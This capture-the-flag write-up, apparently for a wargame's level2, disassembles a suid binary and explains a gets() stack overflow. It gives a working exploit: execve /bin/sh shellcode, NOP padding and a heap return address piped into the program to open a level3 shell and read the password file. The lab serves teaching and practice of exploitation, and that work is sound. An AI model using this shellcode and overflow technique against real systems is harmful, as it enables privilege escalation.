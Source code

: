 # Level2
## Solution

* There is one file in our home, ```level2```, belonging to ```level3``` user, with suid.
* Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

* The only purpose of the ```main``` function is to call ```p``` function.

* Here is the disassembled ```p``` function:
```
   0x080484d4 <+0>:	push   ebp
   0x080484d5 <+1>:	mov    ebp,esp
   0x080484d7 <+3>:	sub    esp,0x68
   0x080484da <+6>:	mov    eax,ds:0x8049860
   0x080484df <+11>:	mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
   0x080484ea <+22>:	mov    DWORD PTR [esp],eax
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
   0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484fb <+39>:	and    eax,0xb0000000
   0x08048500 <+44>:	cmp    eax,0xb0000000
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    eax,0x8048620
   0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
   0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
   0x08048513 <+63>:	mov    DWORD PTR [esp],eax
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    eax,[ebp-0x4c]
   0x0804852a <+86>:	mov    DWORD PTR [esp],eax
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    eax,[ebp-0x4c]
   0x08048535 <+97>:	mov    DWORD PTR [esp],eax
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
```

* Several interesting information about it:

	* ```p``` calls ```gets``` function at offset ```25``` : we can potentially exploit it to do a buffer overflow attack
	* between offsets ```30``` and ```49```, the program checks that the former value of ```eip```, located at ```ebp + 0x4```, doesn't start with ```b``` value : indeed it would indicate a try to execute code on the stack. If the value starts with ```b```, the program exits.
	* at offset ```100```, there is a call to ```strdup```: what we wrote thanks to ```gets``` function will now be copied on the heap


* What we did with all of this:

	* the goal was to perform a buffer overflow attack, by writing a shell code located in the buffer used for ```gets``` function, and a new address to replace the former ```eip```.
	* to get the shell code, we compiled ```shellcode.s``` with ```nasm -f elf32 shellcode2.s -o shellcode``` and got the bytecode thanks to ```objdump -d shellcode```
	* we then launched the following command in the vm:
	```sh
	python -c "print('\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80' + '\x90' * 55 +  '08a00408'.decode('hex'))" > /var/crash/lvl2
	 ```

	* the first 25 bytes are the shellcode itself
	* the 55 following bytes allow us to reach ```ebp + 0x4```, that is to say the former ```eip``` that will be poped at the end of ```p``` function (```0x4c (buffer size) + 0x4 (for former value of ebp) - 0x19 (size of the shell code) = 0x37)```)
	* the final 4 bytes are the little endian written address located on the heap of the buffer used by ```gets```: at the end of ```p```  function, the next instruction read will be our shellcode :)
	* finally, to get the flag, we laumch :
	```sh
	cat /var/crash/lvl2 - | ./level2
	```
	* it opens a shell with ```level3``` user permissions and we can do the following:
	```sh
	cd ../level3; cat .pass
	```
